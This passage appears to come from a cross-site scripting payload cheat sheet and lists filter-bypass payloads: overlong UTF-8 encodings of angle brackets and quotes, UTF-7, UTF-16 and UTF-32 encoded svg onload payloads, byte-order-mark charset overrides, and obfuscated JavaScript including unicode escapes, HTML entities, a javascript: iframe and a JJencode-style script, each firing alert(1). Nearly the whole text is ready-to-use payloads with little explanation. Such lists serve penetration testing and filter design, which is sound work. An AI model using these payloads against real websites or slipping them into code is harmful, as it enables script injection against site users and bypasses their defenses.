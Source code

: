Bypass using overlong UTF-8
```
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2
" = %CA%BA
' = %CA%B9
```

Bypass using UTF-7
```
+ADw-img src=+ACI-1+ACI- onerror=+ACI-alert(1)+ACI- /+AD4-
```

Bypass using UTF-16be
```
%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E%00
\x00<\x00s\x00v\x00g\x00/\x00o\x00n\x00l\x00o\x00a\x00d\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x00)\x00>
```

Bypass using UTF-32
```
%00%00%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```

Bypass using BOM - Byte Order Mark (The page must begin with the BOM character.)    
BOM character allows you to override charset of the page
```
BOM Character for UTF-16 Encoding:
Big Endian : 0xFE 0xFF
Little Endian : 0xFF 0xFE
XSS : %fe%ff%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E

BOM Character for UTF-32 Encoding:
Big Endian : 0x00 0x00 0xFE 0xFF
Little Endian : 0xFF 0xFE 0x00 0x00
XSS : %00%00%fe%ff%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```


Bypass using weird encoding or native interpretation to hide the payload (alert())
```javascript
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
<img src="1" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
<iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>
<script>$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>
```